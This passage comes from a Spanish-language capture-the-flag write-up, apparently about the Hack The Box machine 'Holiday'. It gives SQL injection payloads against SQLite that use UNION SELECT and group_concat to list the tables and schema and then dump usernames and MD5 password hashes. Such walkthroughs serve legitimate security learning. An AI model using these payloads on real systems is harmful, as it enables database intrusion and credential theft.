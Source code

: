 El campo que estoy utilizando para leakear la información solo admite una palabra. Para poder listar todo lo que me interesa de una sola vez separado por comas, puedo agregar un group_concat()

```null
admin")) union select 1,group_concat(tbl_name),3,4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- -
```

Para ver las columnas existentes para la tabla users, introduzco la siguiente query

```null
admin")) union select 1,group_concat(sql),3,4 FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'-- -
```
Se puede ver en la respuesta una query que corresponde a cuando se creó la tabla

<img src="/writeups/assets/img/Holiday-htb/17.png" alt="">

Obtengo un usuario y una contraseña en md5

```null
admin")) union select 1,group_concat(username),3,4 FROM users-- -
```

```null
admin")) union select 1,group_concat(password),3,4 FROM users-- -
```

<img src="/writeups/assets/img/Holiday-htb/18.png" alt="">
